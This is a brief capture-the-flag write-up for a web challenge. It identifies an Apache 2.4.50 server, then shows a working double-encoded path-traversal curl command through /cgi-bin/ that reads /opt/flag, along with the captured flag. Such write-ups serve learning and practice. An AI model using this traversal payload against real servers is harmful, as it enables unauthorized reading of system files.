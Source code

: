 **AH-64**

> Category: Web
>
> Super Six One, go to UHF secure. I've got some bad news. We see vulnerabilites like it is 2001. Tango located in /opt/flag
> 
> Site: AH-64 (http://io.ept.gg:30071/)

Going into the link we get a website with the text "It works!", and no more. 

We can send a GET-request to the webpage to see the server version.

Using httpie:
```
http GET http://io.ept.gg:30071/ 
```
Gives us 
> Server: Apache/2.4.50 (Unix)

A little research shows us that this server is vulnerable to a path-traversal attack (https://www.exploit-db.com/exploits/50406)
The webpage also gives us the method to perform this attack.

```
curl http://io.ept.gg:30071//cgi-bin/%%32%65%%32%65/%%32%65%%32%65/%%32%65%%32%65/%%32%65%%32%65/opt/flag
```
> EPT{we've_got_a_blackhawk_down_we've_got_a_blackhawk_down_i_mean_apache}



